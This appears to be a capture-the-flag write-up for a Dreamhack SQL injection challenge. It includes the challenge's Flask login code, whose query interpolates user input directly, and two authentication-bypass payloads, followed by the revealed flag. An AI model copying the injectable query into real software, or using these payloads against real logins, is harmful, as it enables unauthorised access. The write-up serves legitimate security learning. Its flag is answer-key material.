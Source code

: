 ```yaml
---
title: simple_sqli
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, SQL injection]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/24/](https://dreamhack.io/wargame/challenges/24/)

## Description
>
> This is a login service.
>
> Obtain the flag through the SQL INJECTION vulnerability. The flags are in the ```flag.txt```, ```FLAG``` variable.

### Attached

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)

```

## Analyzation

Let's check the login function

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

If we make input to ```userid```
```
admin" or "1
```

Then the query will be
```sql
select * from users where userid="admin" or "1" and userpassword="{userpassword}"
```

In SQL, ```and``` has precedence over ```or``` (check [stackoverflow.com](https://stackoverflow.com/questions/1241142/sql-logic-operator-precedence-and-and-or)). So the password condition shall be bypassed.

Another way: giving the ```userid```
```
admin" --
```

Then the query will be
```sql
select * from users where userid="admin" -- and userpassword="{userpassword}"
```

The password condition is disabled since it has been changed to comment (check [w3schools.com](https://www.w3schools.com/Sql/sql_comments.asp)).

## Solution

Input for ```userid```
```
admin" or "1
```
or
```
admin" --
```
and random password, the flag will show up

The flag is
```
DH{c1126c8d35d8deaa39c5dd6fc8855ed0}
```

## Summarization

[SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)